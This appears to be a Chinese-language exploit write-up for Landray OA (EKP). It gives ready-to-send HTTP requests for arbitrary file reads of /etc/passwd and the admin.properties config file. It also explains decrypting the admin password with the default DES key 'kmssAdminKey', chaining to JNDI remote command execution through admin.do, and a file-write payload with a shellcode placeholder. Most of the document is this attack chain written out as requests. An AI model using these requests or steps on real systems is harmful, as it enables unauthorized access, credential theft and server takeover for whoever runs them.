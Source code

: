 ## 0x01-任意文件读取

   访问/sys/ui/extend/varkind/custom.jsp
 
  1.被防火墙拦截  2.被上层网络防火墙拦截   3.没有网关
 
 POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1 
Host: host:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0 Accept: */* Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 
Accept-Encoding: gzip, deflate Content-Type: text/plain;charset=UTF-8 Content-Length: 27 Connection: close 
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"file:///etc/passwd"}}


POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"file:///etc/passwd"}}


配合任意文件读取漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 可利用 JNDI远程命令执行获取权限。

## 0x02 SSRF+jndi

   利用任意文件读取/WEB-INF/KmssConfig/admin.properties配置文件

POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

由此获得加密的password,蓝凌OA默认为DES加密，且有个默认密钥为 kmssAdminKey，可以拿着password在在线网站上尝试解密
地址  http://tool.chacuo.net/cryptdes/

![图片](https://user-images.githubusercontent.com/118274389/223748827-8fd0d2b2-6ca3-4083-92d2-6a815e25fa21.png)

## 0x03-EKP后台SQL注入

后台地址admin.do

## 0x04-任意文件写入漏洞1

var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=[shellcode]

